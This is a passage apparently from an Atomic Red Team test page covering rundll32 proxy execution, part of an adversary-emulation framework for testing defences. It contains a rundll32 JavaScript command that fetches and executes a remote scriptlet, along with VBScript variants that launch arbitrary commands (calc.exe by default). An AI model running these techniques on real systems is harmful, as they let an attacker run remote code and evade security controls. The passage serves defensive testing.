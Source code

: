 ```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();window.close();
```

#### Cleanup Commands:
```cmd
taskkill /IM notepad.exe /f
```





<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched

**Supported Platforms:** Windows


**auto_generated_guid:** 638730e7-7aed-43dc-bf8c-8117f805f5bb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```






<br/>
<br/>

## Atomic Test #3 - Rundll32 execute VBscript command using Ordinal number
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched
